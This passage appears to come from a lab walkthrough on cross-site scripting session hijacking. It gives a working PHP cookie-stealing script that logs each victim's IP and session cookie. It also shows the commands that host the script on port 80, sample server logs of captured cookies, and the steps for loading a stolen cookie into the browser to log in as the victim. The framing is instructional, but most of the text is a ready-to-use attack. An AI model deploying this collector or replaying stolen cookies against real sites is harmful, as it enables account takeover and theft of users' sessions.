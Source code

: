 Create a PHP script (`index.php`) on our VM to capture cookies:
```php
<?php
if (isset($_GET['c'])) {
  $list = explode(";", $_GET['c']);
  foreach ($list as $key => $value) {
    $cookie = urldecode($value);
    $file = fopen("cookies.txt", "a+");
    fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
    fclose($file);
  }
}
?>
```

Host it:
```bash
cd /tmp/tmpserver
vi index.php      # paste the above code
sudo php -S 0.0.0.0:80
```

When a victim loads the vulnerable page, you'll receive two hits:
1. For `script.js`
2. For `index.php?c=<cookie>`

Example server output:
```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

You’ll also see it saved in `cookies.txt`:
```bash
cat cookies.txt
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

---

### Using the Cookie

To impersonate the victim:
1. Go to `/hijacking/login.php`
2. Open DevTools → Storage tab (`Shift+F9`)
3. Add a new cookie:
   - **Name**: `cookie`
   - **Value**: `f904f93c949d19d870911bf8b05fe7b2`
   - **Path**: `/hijacking`

Once set, refresh the page — you’re now logged in as the victim.